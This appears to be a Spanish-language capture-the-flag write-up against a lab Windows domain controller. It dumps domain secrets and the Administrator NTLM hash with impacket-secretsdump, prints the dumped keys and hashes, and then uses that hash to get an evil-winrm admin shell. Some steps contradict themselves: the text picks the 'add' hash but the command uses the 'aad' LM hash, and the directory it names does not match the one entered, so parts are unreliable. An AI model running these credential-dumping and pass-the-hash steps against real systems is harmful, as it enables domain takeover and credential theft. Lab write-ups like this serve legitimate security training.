 ```yaml
___________________________________________________________
127.0.0.1       localhost
127.0.1.1       kali
10.10.79.189    DC.COOCTUS.CORP
 The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
____________________________________________________________
```
ahora haremos un impacket-secretsdump -k -no-pass DC.COOCTUS.CORP

Una vez que hayamos hecho eso, debería volcar con éxito los hashes NTLM del usuario.

el hash que colocaras tendria que ser este:
❯ impacket-secretsdump -k -no-pass DC.COOCTUS.CORP
```yam
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xdadf91990ade51602422e8283bad7a4771ca859b
dpapi_userkey:0x95ca7d2a7ae7ce38f20f1b11c22a05e5e23b321b
[*] NL$KM 
 0000   D5 05 74 5F A7 08 35 EA  EC 25 41 2C 20 DC 36 0C   ..t_..5..%A, .6.
 0010   AC CE CB 12 8C 13 AC 43  58 9C F7 5C 88 E4 7A C3   .......CX..\..z.
 0020   98 F2 BB EC 5F CB 14 63  1D 43 8C 81 11 1E 51 EC   ...._..c.C....Q.
 0030   66 07 6D FB 19 C4 2C 0E  9A 07 30 2A 90 27 2C 6B   f.m...,...0*.',k
NL$KM:d505745fa70835eaec25412c20dc360caccecb128c13ac43589cf75c88e47ac398f2bbec5fcb14631d438c81111e51ec66076dfb19c42c0e9a07302a90272c6b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:add41095f1fb0405b32f70a489de022d:::
```
#### Post Explotacion:

en la parte donde dice Administrador seleccionaran el hash que empieza con add, esta el que inicia con aad pero no, ustedes usaran el que dice add

ahora para lograr obtener una shell como administrador lo que haremos sera 
evil-winrm -i 10.10.206.226 -u Administrator -H aad3b435b51404eeaad3b435b51404ee

-i hace referencia a IP -u hace referencia a Usuario -H hace refencia a HASH

#### Escalada De Privilegios:

comenzaremos con una busqueda rapida a los archivos txt y user.

Get-Childitem -Path C:\ -Include *user*.txt* -File -Recurse -ErrorAction SilentlyContinue

como ven nos deja un directorio llamado C:\Shares\Home entremos con cd C:\PerfLogs\Admin y hagamos un dir y como vemos ahi estan las 2 flags mas que necesitabamos, la user.txt ya la habiamos sacado con smbmap...

haremos una busqueda a nivel raiz para la bandera root.txt

Get-Childitem -Path / -Include root.txt -File -Recurse -ErrorAction SilentlyContinue 
